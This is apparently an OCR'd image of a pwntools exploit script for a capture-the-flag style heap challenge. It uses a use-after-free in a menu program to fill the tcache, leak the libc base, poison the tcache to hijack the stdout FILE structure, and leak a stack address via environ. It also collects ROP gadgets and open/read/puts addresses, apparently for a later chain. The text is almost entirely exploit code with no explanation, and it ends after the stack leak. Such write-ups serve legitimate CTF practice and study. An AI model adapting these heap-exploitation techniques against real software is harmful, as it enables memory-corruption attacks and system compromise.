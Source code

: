```bash

def add(size,content):
    sla('Choice: ',str(1))
    sla('Please input size: ',str(size))
    sa('Please input content: ',content)

def delete(index):
    sla('Choice: ',str(2))
    sla('Please input idx: ',str(index))

def show(index):
    sla('Choice: ',str(3))
    sla('Please input idx: ',str(index))

def UAF(index):
    sla('Choice: ',str(666))
    sla('Please input idx: ',str(index))


for i in range(7):
    add(0x80,'aaaa')

add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x80,'aaaa')
add(0x10,'aaaa')

for i in range(7):
    delete(i)

UAF(8)
show(8)

libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
leak("libc_base ",libc_base)
stdout = libc_base + libc.sym['_IO_2_1_stdout_']

environ = libc_base + libc.sym['environ']
leak('environ ',environ)
read_addr = libc_base + libc.sym['read']
open_addr = libc_base + libc.sym['open']
puts_addr = libc_base + libc.sym['puts']

pop_rdi_ret = libc_base + 0x0000000000023b6a
pop_rsi_ret = libc_base + 0x000000000002601f
pop_rdx_ret = libc_base + 0x0000000000142c92


delete(7)

add(0x80,'aaaa') #0

delete(8)



add(0x70,'aaaa') #1
add(0x90,p64(0)+p64(0x91)+p64(stdout)) #2
add(0x80,'aaaa') #3

add(0x80,p64(0xfbad1887)+p64(0)*3+p64(environ)+p64(environ+8)) #4
stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))-0x128
leak('stack_addr ',stack_addr)
```